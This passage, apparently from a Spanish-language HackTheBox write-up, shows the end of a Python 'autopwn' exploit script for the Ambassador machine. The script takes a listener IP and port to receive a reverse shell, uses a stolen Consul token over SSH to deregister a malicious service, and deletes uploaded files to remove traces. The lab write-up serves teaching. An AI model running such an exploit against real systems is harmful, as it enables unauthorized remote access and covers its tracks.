 ```python
			log.info('Removing service')
			# remove service
			command = "curl -X PUT 'http://localhost:8500/v1/agent/service/deregister/autopwn_shell'" \
				+ f" -H 'X-Consul-Token: {self.target_credentials['consul']['token']}'"
			ssh_client.exec_command(command)

			log.info('Removing workstation with uploaded files')
			# remove workstation
			ssh_client.exec_command(f'rm -r /tmp/.{self.args.ip}')

			# close ssh connection
			ssh_client.close()

		except Exception as error:
			exit('\n[x] Error: %s' % error)

## Main flow
if __name__ == '__main__':
	ascii_title = '''
	 /\  ._ _  |_   _.  _  _  _.  _|  _  ._    /\      _|_  _  ._       ._  
	/--\ | | | |_) (_| _> _> (_| (_| (_) |    /--\ |_|  |_ (_) |_) \/\/ | | 
	                                                           |           
	                                                                  by marss
	'''

	parser = argparse.ArgumentParser(
		description=ascii_title,
		formatter_class=argparse.RawDescriptionHelpFormatter,
		epilog='''\nExample:
		autopwn.py -i 10.10.10.10 -p 4444
		''')

	parser.add_argument('-i', '--ip', required=True, help='Specified IP to receive the shell')
	parser.add_argument('-p', '--port', required=True, help='Specified PORT to receive the shell')

	args = parser.parse_args()

	print(ascii_title)

	exploit = Exploit(args)
	exploit.run()
```

> Poc Autopwn

![PoC Autopwn](autopwn.png){: .shadow}

> Puedes encontrar el script en mi repositorio [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Autopwn_Assambador)
{: .prompt-info}
